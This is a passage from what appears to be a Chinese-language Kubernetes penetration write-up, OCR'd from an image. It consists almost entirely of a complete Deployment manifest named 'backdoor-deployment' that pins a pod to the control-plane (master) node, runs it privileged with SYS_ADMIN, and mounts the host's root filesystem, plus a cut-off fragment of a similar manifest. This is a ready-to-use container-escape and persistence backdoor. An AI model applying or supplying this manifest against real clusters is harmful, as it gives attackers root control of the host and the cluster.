 ```yaml
            add:
            - SYS_ADMIN
        volumeMounts:
          - name: rootfs
            mountPath: /host
      volumes:
        - name: rootfs
          hostPath:
            path: /
```



### 4.2 部署到master节点上

- backdoor-deployment-master.yaml

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: backdoor-deployment
  labels:
    app: backdoor-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: backdoor-deployment
  template:
    metadata:
      labels:
        app: backdoor-deployment
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        operator: Exists
        effect: NoSchedule
      affinity:
        nodeAffinity:
          requiredDuringSchedulingIgnoredDuringExecution:
            nodeSelectorTerms:
            - matchExpressions:
              - key: node-role.kubernetes.io/master
                operator: Exists
      containers:
      - name: nginx
        image: nginx:1.14.2
        ports:
        securityContext:
          privileged: true
          capabilities:
            add:
            - SYS_ADMIN
        volumeMounts:
          - name: rootfs
            mountPath: /host
      volumes:
        - name: rootfs
          hostPath:
            path: /
```
